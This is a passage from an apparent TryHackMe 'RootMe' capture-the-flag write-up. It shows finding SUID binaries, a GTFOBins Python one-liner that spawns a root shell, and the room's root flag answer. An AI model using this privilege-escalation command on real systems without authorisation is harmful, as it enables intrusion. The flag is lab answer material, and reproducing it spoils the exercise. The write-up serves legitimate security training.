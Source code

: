 ![Find SUID](/images/thm/rrootme/rrootme_7.png)
_Find SUID_

Python seems good to check on GFTOBINS :

![SUID](/images/thm/rrootme/rrootme_8.png)
_SUID_

Answer : /usr/bin/python

### Find a form to escalate your privileges.

Executed the gftobins command :

```console
$ cd /usr/bin
$ ./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
```
{: .nolineno }

No Answer.

### root.txt

```console
cat /root/root.txt
THM{pr1v1l3g3_3sc4l4t10n}
```
{: .nolineno }

Answer : THM{pr1v1l3g3_3sc4l4t10n}